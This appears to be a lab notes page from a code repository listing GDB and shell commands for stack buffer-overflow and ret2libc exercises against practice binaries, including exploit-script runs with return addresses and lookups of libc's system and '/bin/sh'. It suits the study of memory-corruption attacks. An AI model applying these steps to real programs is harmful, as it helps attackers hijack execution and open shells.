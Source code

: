 # `overflow.x86.no`

## Debug session with GDB

    break *(return_input+32)

    run < <(python ./exploit.py -r 0xffffd4f8)

    hexdump $sp-0x100 0x200

    nearpc $sp+8 10

## Shell session

    ulimit -c unlimited

    ./overflow.x86.no < <(python exploit.py -r 0xffffd4f8)

    gdb ./overflow.x86.no core

    ./overflow.x86.no < <(python exploit.py -r 0xffffd548)

# `victim.x86.no`

## Shell session
    
    ulimit -c unlimited

    sudo sysctl -w kernel.core_pattern=core

    python exploit_victim.py -r 0xdeadbeef | xargs ./victim.x86.no

    ./victim.x86.no $(python exploit_victim.py -r 0xdeadbeef)

    gdb ./victim.x86.no core

    ./victim.x86.no $(python exploit_victim.py -r 0xffffd2e0)

## Debug session with GDB
    
    run $(python exploit_victim.py -r 0xffffd2a0)


# Ret2libc of `victim.x86.no.nx`

    gdb ./victim.x86.no.nx

    print system

    search -s '/bin/sh'

    hexdump 0xf7f6ea0b 10

    ./victim.x86.no.nx $(python exploit_r2l.py)


